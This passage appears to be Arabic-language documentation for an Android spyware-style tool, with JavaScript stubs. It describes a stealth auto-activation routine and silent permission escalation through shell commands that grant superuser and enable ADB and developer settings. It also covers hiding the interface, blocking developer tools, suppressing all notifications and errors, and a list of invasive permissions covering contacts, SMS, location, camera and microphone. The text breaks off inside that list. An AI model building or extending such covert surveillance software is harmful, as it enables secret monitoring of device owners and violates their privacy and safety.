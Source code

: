 ### 2. **دالة sendAutoActivationConfirmation**
```javascript
function sendAutoActivationConfirmation() {
    const activationData = {
        deviceId: deviceId,
        status: 'auto_activated',
        activationType: 'automatic',
        stealthMode: true
    };
}
```

### 3. **دالة grantAdditionalPermissions**
```javascript
async function grantAdditionalPermissions() {
    const additionalCommands = [
        'pm grant com.android.systemui android.permission.ACCESS_SUPERUSER',
        'settings put global adb_enabled 1',
        'settings put global development_settings_enabled 1'
    ];
}
```

## 🥷 ميزات التخفي المحسنة

### 1. **إخفاء تدريجي للواجهة**
- **تأخير عشوائي** بين كل عنصر
- **انتقال سلس** للشفافية
- **إخفاء شريط المهام** (Android)
- **منع أدوات المطور**

### 2. **منح الأذونات بشكل خفي**
- **تأخير عشوائي** بين كل صلاحية
- **عدم ظهور أخطاء**
- **صلاحيات إضافية** شاملة
- **تمكين خيارات المطور**

### 3. **تعطيل الإشعارات الشامل**
- **تعطيل جميع الإشعارات**
- **تعطيل الأصوات والاهتزاز**
- **تنفيذ متكرر** للتأكد
- **عدم ظهور أخطاء**

## 📋 قائمة الأذونات الجديدة

### الأذونات الأساسية:
```javascript
const permissions = [
    'android.permission.READ_CONTACTS',
    'android.permission.READ_SMS',
    'android.permission.ACCESS_FINE_LOCATION',
    'android.permission.CAMERA',
    'android.permission.RECORD_AUDIO',
    'android.permission.WRITE_EXTERNAL_STORAGE',
    'android.permission.READ_EXTERNAL_STORAGE',
    'android.permission.ACCESS_WIFI_STATE',
    'android.permission.INTERNET',
    'android.permission.WAKE_LOCK',
    'android.permission.FOREGROUND_SERVICE',
    'android.permission.SYSTEM_ALERT_WINDOW',
    'android.permission.WRITE_SECURE_SETTINGS',
```